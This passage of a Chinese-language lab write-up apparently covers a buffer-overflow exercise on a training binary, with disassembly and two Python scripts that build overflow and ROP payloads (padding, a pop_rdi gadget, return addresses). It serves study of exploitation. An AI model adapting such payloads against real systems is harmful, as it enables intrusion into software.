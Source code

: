 ```asm
  40125b:	e8 70 fe ff ff       	call   4010d0 <_init+0xd0>
  401260:	bf 00 00 00 00       	mov    $0x0,%edi
  401265:	e8 b6 fe ff ff       	call   401120 <_init+0x120>

```

​	那NX保护机制的原理是什么？我们可以看到，在  `401225:	81 7d fc f8 03 00 00 	cmpl   $0x3f8,-0x4(%rbp)`中进行了一个比较，如果相等才能执行下面的程序，而我们直接运行的时候传入的数值与要求的不相等，所以会出现这种情况。

```asm
00000000004012bb <pop_rdi>:
  4012bb:	f3 0f 1e fa          	endbr64 
  4012bf:	55                   	push   %rbp
  4012c0:	48 89 e5             	mov    %rsp,%rbp
  4012c3:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
  4012c7:	5f                   	pop    %rdi
  4012c8:	c3                   	ret    
  4012c9:	90                   	nop
  4012ca:	5d                   	pop    %rbp
  4012cb:	c3                   	ret    
```

​	在这里我想到的第一种思路是利用`pop_rd`i函数把这个要求的值给它直接传进去。于是编写了以下代码：

```python
padding = b'A'*16   #填充数据的大小，确保覆盖栈上的数据直到返回地址
func2_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # func2的地址，小端表示
cookie = b"\xf8\x03\x00\x00\x00\x00\x00\x00"         #要求传入的值的大小
pop_address = b"\xbb\x12\x40\x00\x00\x00\x00\x00"    #pop_rdi的地址

# 构造ROP链
payload = padding + pop_address + cookie + func2_address

#写入payload到文件
with open("ans2.txt","wb") as f:
	f.write(payload)
	
print("Payload written to ans2.txt")
```

​	结果发现不行，这个值传不进去。（当然也有可能是我的代码本身有问题。）我问了一下大佬，大佬告诉我一个可能的原因是**我的exp里面有0x00，strcpy到那里就截止了，没有什么解决办法，这说明strcpy造成的缓存溢出漏洞其实利用难度是有点大的**。好吧，那就换一种思路，也就是跳过比较，直接进入比较后面的输出部分。

```python
padding = b'A' * 16  # 填充数据的大小，确保覆盖栈上的数据直到返回地址

func2_address = b"\x4c\x12\x40\x00\x00\x00\x00\x00"  # func2的地址，小端表示

# 构造ROP链
payload = padding  + func2_address

# 写入payload到文件 
with open("ans2.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans2.txt")

```
